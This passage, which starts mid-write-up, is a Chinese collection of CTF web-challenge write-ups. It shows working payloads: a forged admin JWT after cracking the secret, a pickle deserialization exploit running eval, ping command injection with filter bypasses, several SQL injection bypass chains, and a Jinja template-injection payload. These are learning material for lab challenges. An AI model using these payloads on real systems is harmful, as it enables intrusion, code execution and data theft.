Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。  
猜测是使用反序列化漏洞读取文件。看了dalao的博客发现可以加以利用，[资料](http://www.polaris-lab.com/index.php/archives/178/)，并且还有dalao写了极为完善的[脚本](https://github.com/sensepost/anapickle/blob/master/anapickle.py)，尝试使用dalao的脚本：
```
import os
import marshal
import base64
import _pickle as cPickle
import urllib

class genpoc(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()",))

e = genpoc()
poc = cPickle.dumps(e)

print (urllib.parse.quote(poc))
```
这里要注意的是要用python2去生成，python3生成出来的东西没有办法使用qaq。  
得到flag

----
# [极客大挑战 2019]BuyFlag
首先进去又是熟悉的主页，然后我们发现header里面有一个user=0，改成user=1，提示输入password，查看源码发现有post字样，典型的加空格绕过，但是我post过后没有任何的反应？？？？  
查看wp后发现我header又是里面没有`Content-Type: application/x-www-form-urlencoded`。然后又提示我pay，于是post上去money=100000000，提示过长，数组绕过。  
得到flag

----
# [GXYCTF2019]Ping Ping Ping
打开就是一个get请求，输入`ip=127.0.0.1`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
```
发现是一个ping命令，但是fuck了空格和符号
```
ip=127.0.0.1%20     #这样会被fuck
ip=127.0.0.1$IFS$1  #这样没事
ip=127.0.0.1;       #这样没事
```
尝试使用`ip=127.0.0.1;ls`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
尝试使用`ip=127.0.0.1;cat$IFS$1flag.php`读取flag.php：
```
fxck your flag!
```
查看index.php
```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```
使用变量绕过`ip=127.0.0.1;q=l;w=a;e=f;r=g;t=.php;cat$IFS$9$e$q$w$r$t`。  
得到flag

----
# [ASIS 2019]Unicorn shop
打开是叫我买unicorn，然后在字符编码utf8那一行提示注意很重要。输入item为1，price不输入，发现报错`unicodedata.numeric(price)`，发现这个判断字符在unicode中是否代表数字的函数，于是到[这个网站](https://www.compart.com/en/unicode/)上搜索thousand，随便找一个大的，我选择的`ↁ`这个，输入item号，提交就行。  
得到flag

----
# [极客大挑战 2019]BabySQL
打开又是一个注入：
```
自从前几次网站被日，我对我的网站做了严格的过滤，你们这些黑客死心吧！！！
```
看上去挺强。sqlmap测试后发现被出题人嘲讽了，看来要么写tamper，要么手工注入。先测试一下关键字，发现大多是关键字被删除，我们使用`<>`来绕过（当然这里也能双写）：
```
check.php?username=admin&password=1' uni<>on sel<>ect 1,2,3%23
# 选择3位置显示

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(table_name) fr<>om info<>rmation_schema.tables wh<>ere table_schema = database()%23
# b4bsql,geekuser

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(column_name) fr<>om info<>rmation_schema.columns wh<>ere table_name = 'b4bsql'%23
# id,username,password

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(username) fr<>om b4bsql%23
#cl4y,sql,porn,git,Stop,badguy,hacker,flag

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(passwo<>rd) fr<>om b4bsql wh<>ere username='flag'%23
```
得到flag

----
# [WesternCTF2018]shrine
打开就是源码：
```
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```
发现是将flag放在了`flask`的`config`里面，并且在`render`的时候把`config`和`self`整成了`None`，看来是一个模板注入，目的是要我们换个方式查询`flask`的`config`。所以在[flask文档](https://dormousehole.readthedocs.io/en/latest/api.html#flask.Flask)里面找变量有包含`current_app`的，我们就可以读取`config`了。用burp跑一下类似`函数.__globals__`的payload，找到response中含有`current_app`的，最后我使用`{{url_for.__globals__['current_app'].config}}`  
其实这里如果没有过滤config的话，就直接`{{config}}`获取，没有过滤`self`的话也可以通过`{{self.__dict__}}`，没有过滤括号的话，还能用base object通过os读取环境变量来获得  

得到flag

----
# [SWPU2019]Web1
打开是一个登陆页面，简单测试了登录和注册没有注入，然后注册admin显示已有该用户，于是注册一个正常账户，发现是一个广告发布页面，点击发布广告，输入`#`，提示标题含有敏感词汇，于是判断是在此注入。测试发现会删除空格。然后就不知道怎么操作了，看着一大堆东西懵逼。翻了wp才知道原来要点进广告详情才会有显示的qaq。然后我们使用`/**/`绕过空格，并在最后使用单引号闭合，`order by`也是不能使用了。
```
1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```
尼玛22个字段，在此问候出题人。正当我以为已经可以注入的时候，发现`information_schema`竟然被过滤了，淦，查阅资料后发现有替代的方法：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_colum ns/**/where/**/table_schema=schema()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
本以为已经完美解决，没有想到：
```
Table 'sys.schema_auto_increment_columns' doesn't exist
```
wtf，看来得试试另一种方法，看了看innodb也是可以查到表名的：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
得到表名：
```
ads,users
```
接着无列名注入：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
得到flag

----